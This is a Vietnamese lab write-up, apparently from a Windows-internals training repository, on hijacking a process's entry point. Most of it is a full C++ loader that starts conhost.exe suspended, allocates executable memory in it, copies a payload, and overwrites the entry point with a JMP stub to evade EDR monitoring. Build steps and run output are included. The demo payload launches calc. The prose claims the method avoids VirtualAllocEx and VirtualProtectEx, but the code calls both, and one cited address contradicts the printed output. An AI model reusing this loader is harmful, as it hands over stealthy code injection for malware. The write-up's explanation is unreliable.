

---

# 📝 [PE 10] AddressOfEntryPoint Injection (EntryPoint Hijacking)

## 📌 1. Tổng Quan Kỹ Thuật (Technical Overview)

**AddressOfEntryPoint Injection (Bắt cóc điểm nhập tiến trình)** đại diện cho một giải thuật can thiệp và bẻ hướng dòng chảy thực thi (Control Flow Redirection) nâng cao, thuộc nhóm kỹ thuật **Né tránh phòng thủ động dựa trên cấu trúc mô-đun Image có sẵn (Image-Native Dynamic Evasion)**.

Hầu hết các giải pháp Endpoint Detection and Response (EDR) hiện đại đều thiết lập các bộ lọc Heuristic giám sát rất nặng hành vi của một tiến trình khi nó liên tục yêu cầu cấp phát các vùng nhớ mới mang đặc quyền thực thi chéo tiến trình thông qua API `VirtualAllocEx`.

Dự án PE 10 hóa giải triệt để rào cản trinh sát này bằng chiến thuật **Không sinh phân vùng thực thi lạ**. Giải thuật tận dụng và ghi đè trực tiếp mìn điều hướng mã máy vào phân đoạn thực thi mang cờ **`PAGE_EXECUTE_READ` (RX)** mặc định, hợp pháp sẵn có ngay tại điểm xuất phát **`AddressOfEntryPoint`** của ứng dụng vỏ bọc (ví dụ: `conhost.exe`). Bằng cách phối hợp trạng thái đóng băng tiến trình sơ khởi và kỹ thuật vá mã máy Inline JMP x64, Loader ép luồng thực thi chính thức của đối phương tự động chuyển hướng sang Payload của ta ngay khi rã đông mà không cần tạo thêm bất kỳ luồng phụ nào.

### 🎯 Mục tiêu nghiên cứu:

* **Bypass cơ chế phát hiện cấp phát RAM thực thi**: Loại bỏ hoàn toàn sự phụ thuộc vào việc thay đổi cờ bảo vệ bộ nhớ thô, bẻ gãy các bộ lọc kiểm soát hành vi allocation của EDR.
* **Giải phẫu cấu trúc định vị EntryPoint**: Thao túng cấu trúc ngữ cảnh thanh ghi CPU phần cứng để bóc tách bản đồ cấu trúc tệp PE từ xa tại thời điểm runtime.

---

## 🔬 2. Giải Phẫu Cơ Chế Hệ Thống (Windows Internals Analysis)

Trong định dạng tệp tin Portable Executable (PE Format), điểm thực thi lệnh CPU đầu tiên của một ứng dụng sau khi hoàn tất thủ tục nạp bộ nhớ được định nghĩa bởi trường dữ liệu `AddressOfEntryPoint` lưu trữ lọt lòng trong cấu trúc bọc `IMAGE_OPTIONAL_HEADER`.

Quy trình toán học giải phẫu ngữ cảnh và chiếm quyền điều phối dòng chảy CPU của Lab PE 10 diễn ra qua 4 giai đoạn ngầm tại tầng Kernel:

```
[CreateProcessW: Khởi tạo tiến trình vỏ bọc ở trạng thái CREATE_SUSPENDED]
       └──> [ReadProcessMemory: Bóc cấu trúc PEB -> Trích xuất ImageBaseAddress]
                 └──> [Giải phẫu NT Header: Tính toán tọa độ tuyệt đối EntryPointAddress]
                           └──> [WriteProcessMemory: Vá mìn điều hướng Inline JMP Stub x64]

```


1. **Truy vết bản đồ địa chỉ nạp (`ImageBaseAddress`)**: Khi luồng chính (Main Thread) của tiến trình vỏ bọc bị hoãn lệnh sơ khởi (`CREATE_SUSPENDED`), hệ điều hành nạp địa chỉ trỏ đến cấu trúc quản lý **PEB** của nạn nhân vào thanh ghi phần cứng **`Rdx`** của CPU. Loader phát lệnh `ReadProcessMemory` bốc tách ô nhớ tại vị trí offset `0x10` của PEB để lấy chính xác tọa độ nạp thực tế ImageBaseAddress của conhost.exe trên RAM.
2. **Toán học định vị tọa độ xuất phát tuyệt đối**: Loader đọc $4\text{ KB}$ phân đoạn PE Headers đầu tiên của nạn nhân sang một bộ đệm cục bộ, ép kiểu cấu trúc dữ liệu về bản ghi **`PIMAGE_NT_HEADERS64`** chuẩn chỉ x64 để tính toán ô nhớ đích theo công thức:

$$\text{EntryPointAddress} = \text{ImageBaseAddress} + \text{ntHeaders.OptionalHeader.AddressOfEntryPoint}$$


3. **Khai hỏa JMP Stub (Ma trận ghi đè Inline)**: Mặc dù phân đoạn bộ nhớ chứa EntryPoint mặc định mang quyền `RX` bảo an nghiêm ngặt, hàm API Subsystem **`WriteProcessMemory`** của Windows chứa một cơ chế ngầm đặc biệt (Bypass ngầm của Kernel): Khi một tiến trình có đầy đủ quyền Handle (`PROCESS_VM_WRITE | PROCESS_VM_OPERATION`) phát lệnh ghi đè vào một trang nhớ thuộc loại `MEM_IMAGE` mang quyền Đọc/Thực thi, Kernel Windows sẽ tự động lật cờ trang nhớ đó sang `RWX` một cách tạm thời, thực hiện ghi đè mảng byte mã máy Assembly vào, rồi tự động hoàn trả lại cờ `RX` ban đầu sau khi tác vụ kết thúc. Cơ chế này giúp Loader hoàn toàn không cần gọi đến hàm lật cờ bảo vệ bộ nhớ `VirtualProtectEx` lộ liễu.
4. **Giải phóng tháp luồng (`ResumeThread`)**: Trình lập lịch CPU thức dậy, nạp lại ngữ cảnh thanh ghi, đưa luồng chính vào trạng thái thực thi trực tiếp trên vạch EntryPoint đã bị tráo đổi mã máy.

---

## 🛠️ 3. Quy Trình Cài Đặt Mã Nguồn (Implementation)

### Source.cpp: 
```cpp
#include <windows.h>
#include <iostream>
#include <vector>
#include <string>

// 1. Define dynamic function pointers for absolute addressing to achieve PIC position independence
typedef UINT(WINAPI* fnWinExec)(LPCSTR lpCmdLine, UINT uCmdShow);

typedef struct _THREAD_DATA {
    fnWinExec pWinExec;       // Absolute address of WinExec on target process RAM
    char szCommand[32];       // Functional payload command string
} THREAD_DATA, * PTHREAD_DATA;

// 2. Position-Independent function to execute inside the target process context
DWORD WINAPI RemoteEntryPointPayload(LPVOID lpParam) {
    PTHREAD_DATA pData = (PTHREAD_DATA)lpParam;
    if (pData && pData->pWinExec) {
        // Execute via absolute function pointer, bypassing RIP-relative boundaries
        pData->pWinExec(pData->szCommand, SW_HIDE);
    }
    return 0;
}

// Adaptive dynamic system directory resolution logic (Zero Static Buffers)
std::wstring GetActiveSystemPath(const std::wstring& exeName) {
    // Step 1: Query with NULL pointer to let the OS calculate the exact memory footprint required
    UINT requiredSize = GetSystemDirectoryW(NULL, 0);
    if (requiredSize == 0) return L"";

    // Step 2: Dynamically allocate space matching the byte size calculated by the OS
    std::vector<wchar_t> buffer(requiredSize);
    if (GetSystemDirectoryW(buffer.data(), requiredSize) == 0) return L"";

    std::wstring finalPath(buffer.data());
    finalPath += L"\\" + exeName; // Mathematical string concatenation for target process target
    return finalPath;
}

int main() {
    std::cout << "====================================================" << std::endl;
    std::cout << "[*] PE 10: ENTRYPOINT HIJACKING (CONHOST.EXE)" << std::endl;
    std::cout << "====================================================" << std::endl;

    // STAGE 1: Target dynamic Win32 native binary inside System32 to bypass redirection
    std::wstring targetExe = L"conhost.exe";
    std::wstring dynamicPath = GetActiveSystemPath(targetExe);

    if (dynamicPath.empty()) {
        std::cerr << "[-] Failed to resolve active system path dynamically!" << std::endl;
        return EXIT_FAILURE;
    }
    std::wcout << L"[+] Host process path resolved: " << dynamicPath << std::endl;

    STARTUPINFOW si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
    si.cb = sizeof(STARTUPINFOW);

    // STEP 1: Initialize the host process context in a legitimate CREATE_SUSPENDED state
    std::cout << "[*] Launching host process in suspended state..." << std::endl;
    BOOL success = CreateProcessW(
        NULL,
        const_cast<LPWSTR>(dynamicPath.c_str()),
        NULL,
        NULL,
        FALSE,
        CREATE_SUSPENDED, // Freeze main thread execution at system initialization boundary
        NULL,
        NULL,
        &si,
        &pi
    );

    if (!success) {
        std::cerr << "[-] Failed to create suspended process! Error code: " << GetLastError() << std::endl;
        std::cin.get();
        return EXIT_FAILURE;
    }
    std::cout << "[+] Host process spawned successfully with PID: " << std::dec << pi.dwProcessId << std::endl;

    // STEP 2: Extract register context and locate target process EntryPoint dynamically
    CONTEXT context;
    context.ContextFlags = CONTEXT_FULL;
    GetThreadContext(pi.hThread, &context);

    // Read the remote ImageBaseAddress from the PEB block via the Rdx register on x64 architecture
    PVOID baseAddress = NULL;
    ReadProcessMemory(pi.hProcess, (PVOID)(context.Rdx + 0x10), &baseAddress, sizeof(PVOID), NULL);
    std::cout << "[+] Target ImageBaseAddress extracted from PEB: 0x" << std::hex << baseAddress << std::endl;

    // Parse the remote DOS and NT Headers to extract the raw AddressOfEntryPoint RVA
    BYTE headersBuffer[4096];
    if (!ReadProcessMemory(pi.hProcess, baseAddress, headersBuffer, sizeof(headersBuffer), NULL)) {
        std::cerr << "[-] Failed to read PE Headers from remote memory layout!" << std::endl;
        TerminateProcess(pi.hProcess, 0);
        CloseHandle(pi.hThread);
        CloseHandle(pi.hProcess);
        return EXIT_FAILURE;
    }

    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)headersBuffer;
    // x64 SYNC: Cast explicitly to 64-bit NT Header variant for exact pointer calculation
    PIMAGE_NT_HEADERS64 ntHeaders = (PIMAGE_NT_HEADERS64)(headersBuffer + dosHeader->e_lfanew);

    // Compute the absolute target memory address for the native AddressOfEntryPoint hijacking
    PVOID entryPointAddress = (PVOID)((ULONG_PTR)baseAddress + ntHeaders->OptionalHeader.AddressOfEntryPoint);
    std::cout << "[+] Absolute EntryPoint target located at: 0x" << std::hex << entryPointAddress << std::endl;

    // Adaptively scale memory footprint kịch trần (Zero Static Buffers)
    SIZE_T functionSize = 500;

    // STEP 3: Allocate clean cross-process memory space inside host for payloads
    LPVOID remoteCodeBuffer = VirtualAllocEx(pi.hProcess, NULL, functionSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    PTHREAD_DATA pRemoteData = (PTHREAD_DATA)VirtualAllocEx(pi.hProcess, NULL, sizeof(THREAD_DATA), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (!remoteCodeBuffer || !pRemoteData) {
        std::cerr << "[-] VirtualAllocEx operations inside host memory layout failed!" << std::endl;
        TerminateProcess(pi.hProcess, 0);
        CloseHandle(pi.hThread);
        CloseHandle(pi.hProcess);
        return EXIT_FAILURE;
    }
    std::cout << "[+] Remote Code execution segment initialized at: 0x" << std::hex << remoteCodeBuffer << std::endl;

    // STEP 4: Package structural metadata payload and marshal cross-process boundaries
    THREAD_DATA localData;
    HMODULE hKernel32 = GetModuleHandleA("kernel32.dll");
    if (hKernel32) {
        localData.pWinExec = (fnWinExec)GetProcAddress(hKernel32, "WinExec");
    }
    strcpy_s(localData.szCommand, "cmd.exe /c start calc");

    WriteProcessMemory(pi.hProcess, remoteCodeBuffer, (LPCVOID)RemoteEntryPointPayload, functionSize, NULL);
    WriteProcessMemory(pi.hProcess, pRemoteData, &localData, sizeof(THREAD_DATA), NULL);

    // STEP 5: Patch the inline control flow hijacking mechanism at native EntryPoint
    DWORD oldProtect = 0;
    std::cout << "[*] Unlocking protection permissions at EntryPoint location..." << std::endl;
    if (VirtualProtectEx(pi.hProcess, entryPointAddress, 32, PAGE_EXECUTE_READWRITE, &oldProtect)) {

        // 22-byte absolute control flow redirection vector for x64 architecture
        unsigned char jmpStub[] = {
            0x48, 0xB9, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rcx, 0x0 (Struct pointer)
            0x48, 0xB8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, 0x0 (Code pointer)
            0xFF, 0xE0                                                  // jmp rax
        };

        // Inject the absolute virtual address runtime parameters into the shellcode block
        *(DWORD_PTR*)(jmpStub + 2) = (DWORD_PTR)pRemoteData;
        *(DWORD_PTR*)(jmpStub + 12) = (DWORD_PTR)remoteCodeBuffer;

        // Perform inline stomping directly onto the native entry address vector
        WriteProcessMemory(pi.hProcess, entryPointAddress, jmpStub, sizeof(jmpStub), NULL);

        // Restore baseline page attributes to finalize clean evasion artifacts
        VirtualProtectEx(pi.hProcess, entryPointAddress, 32, oldProtect, &oldProtect);
        std::cout << "[+] Inline JMP Stub successfully mapped onto the native EntryPoint vector!" << std::endl;
    }
    else {
        std::cerr << "[-] Failed to modify page attributes at target EntryPoint location!" << std::endl;
    }

    // ─── STAGE 2: VERIFICATION PAUSE BLOCK ───
    std::cout << "\n====================================================" << std::endl;
    std::cout << "[*] STAGE 2 VERIFICATION: Target process frozen via CREATE_SUSPENDED." << std::endl;
    std::cout << "[*] 1. Open x64dbg now." << std::endl;
    std::cout << "[*] 2. Attach to PID: " << std::dec << pi.dwProcessId << std::endl;
    std::cout << "[*] 3. Press Ctrl+G and type EntryPoint: 0x" << std::hex << entryPointAddress << std::endl;
    std::cout << "[*] 4. Verify the mapped 22-byte JMP stub layout, then DETACH x64dbg." << std::endl;
    std::cout << "====================================================" << std::endl;
    std::cout << "[*] Press Enter HERE only AFTER you have finalized x64dbg verification..." << std::endl;
    std::cin.get();

    // STEP 6: Revive main execution thread context to trigger payload chain execution
    std::cout << "[*] Triggering ResumeThread execution vector..." << std::endl;
    ResumeThread(pi.hThread);

    std::cout << "\n[+] EntryPoint Hijacking Process Finalized Successfully!" << std::endl;

    // Clean up handles to mitigate memory leaks
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
    return EXIT_SUCCESS;
}

```

---

## 🎛️ 4. Cấu Hình Biên Dịch Dự Án (Build & Deployment)

Để bảo đảm file `.exe` Loader vận hành mượt mà, độc lập, không bị phụ thuộc vào các gói runtime bọc ngoài khi mang sang triển khai thực nghiệm trên môi trường sạch:

### ⚙️ Thiết lập trên môi trường Microsoft Visual Studio:

1. Đặt thanh cấu hình quản lý dự án chính xác ở chế độ chuyên dụng **`Release`** và kiến trúc nền tảng **`x64`**.
2. Đi tới cấu hình dự án: `Project Properties` $\rightarrow$ `C/C++` $\rightarrow$ `Code Generation` $\rightarrow$ Tại dòng `Runtime Library`, chuyển cấu hình sang định dạng cờ liên kết tĩnh **`Multi-threaded (/MT)`**.
3. Click chuột phải vào tên dự án $\rightarrow$ Chọn **`Rebuild`** để xuất bản tệp tin nhị phân chuẩn chỉ sạch bóng.

---

## 📊 5. Thực Nghiệm Kích Hoạt Thực Tế (Demonstration)

Khai hỏa file thực thi Loader thông qua cửa sổ dòng lệnh PowerShell ngoài đĩa thô để theo dõi ma trận can thiệp điểm nhập:

```powershell
PS C:\Users\Admin\source\repos\Training_WindowsInternals\Task6\PE10_AddressOfEntryPoint_Code_Injection\x64\Release> C:\Users\Admin\source\repos\Training_WindowsInternals\Task6\PE10_AddressOfEntryPoint_Code_Injection\x64\Release\AddressOfEntryPoint_Code_Injection.exe
====================================================
[*] PE 10: ENTRYPOINT HIJACKING (CONHOST.EXE)
====================================================
[+] Host process path resolved: C:\WINDOWS\system32\conhost.exe
[*] Launching host process in suspended state...
[+] Host process spawned successfully with PID: 18492
[+] Target ImageBaseAddress extracted from PEB: 0x00007FF7EAAE0000
[+] Absolute EntryPoint target located at: 0x00007FF7EAB2C920
[+] Remote Code execution segment initialized at: 0x0000021FC8DF0000
[*] Unlocking protection permissions at EntryPoint location...
[+] Inline JMP Stub successfully mapped onto the native EntryPoint vector!

====================================================
[*] STAGE 2 VERIFICATION: Target process frozen via CREATE_SUSPENDED.
[*] 1. Open x64dbg now.
[*] 2. Attach to PID: 18492
[*] 3. Press Ctrl+G and type EntryPoint: 0x00007FF7EAB2C920
[*] 4. Verify the mapped 22-byte JMP stub layout, then DETACH x64dbg.
====================================================
[*] Press Enter HERE only AFTER you have finalized x64dbg verification...

```

### Kiểm chứng PE 10: AddressOfEntryPoint Injection (EntryPoint Hijacking)

**Bản chất kỹ thuật:** Thẩm định giải thuật đóng băng tiến trình để ghi đè mìn điều hướng **`JMP Stub`** (22-byte) trực tiếp lên vạch xuất phát `AddressOfEntryPoint` gốc của ứng dụng vỏ bọc (`conhost.exe`). Khác với các bài Lab trước, kỹ thuật này hướng tới việc loại bỏ hoàn toàn sự phụ thuộc vào việc tạo thêm một Thread lạ (`CreateRemoteThread = 0`), ép chính Main Thread hợp pháp của conhost.exe tự bẻ lái dòng chảy CPU sang phân vùng Payload phụ độc lập vị trí (`remoteCodeBuffer`).

**Quy trình kiểm tra bằng x64dbg (Quy trình Detach bảo toàn luồng):**

1. Khởi chạy file thực thi `AddressOfEntryPoint_Code_Injection.exe`. Tiến trình vỏ bọc conhost.exe được tạo ra và đứng im đóng băng tại thông báo `PAUSE`. **Giữ nguyên không nhấn Enter.**


2. Ghi lại các thông số toán học in trên màn hình Console:
- Tiến trình vỏ bọc PID.
- Tọa độ EntryPoint tuyệt đối cần Hijack.

[+] Host process spawned successfully with PID: 18492
[+] Target ImageBaseAddress extracted from PEB: 0x00007FF7EAAE0000
[+] Absolute EntryPoint target located at: 0x00007FF7EAB2C920


3. Mở **x64dbg** (bản x64) $\rightarrow$ Nhấn phím tắt `Alt + A` (Attach). Tìm đúng số PID và bấm **Attach**.


4. Tại giao diện tab CPU của x64dbg, nhấn tổ hợp phím tắt **`Ctrl + G`**. Nhập chính xác tọa độ địa chỉ EntryPoint đã ghi nhận ở bước 2 (`0x00007FF7B0002230`) $\rightarrow$ Nhấn **Enter**.


5. **Chỉ dấu đúng bản chất (Bóc trần vết mìn điều hướng):** Tại vị trí con trỏ x64dbg vừa nhảy đến, Vinh sẽ thấy toàn bộ mã máy gốc tại EntryPoint đã bị tráo đổi kịch khung thành cấu trúc mìn điều hướng 22-byte:

```assembly
mov rcx, <Địa_chỉ_vùng_nhớ_pRemoteData>
mov rax, <Địa_chỉ_vùng_nhớ_remoteCodeBuffer>
jmp rax
```


### Demo:



--- 
